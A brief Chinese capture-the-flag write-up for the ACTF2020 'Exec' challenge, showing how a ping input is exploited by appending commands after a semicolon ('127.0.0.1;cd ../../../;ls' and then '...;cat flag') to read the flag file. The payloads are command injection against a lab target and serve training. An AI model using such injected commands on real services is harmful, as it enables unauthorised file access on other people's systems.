




# [ACTF2020 新生赛]Execkkkv

点击题目链接 http://5e4cbe58-7998-4f70-8535-c2d9e1c3c28b.node5.buuoj.cn:81

尝试输入127.0.0.1

利用 ../ 向上遍历，当传入127.0.0.1;cd ../../../;ls 时看到了flag

输入127.0.0.1;cd ../../../;cat flag命令获得flag

提交flag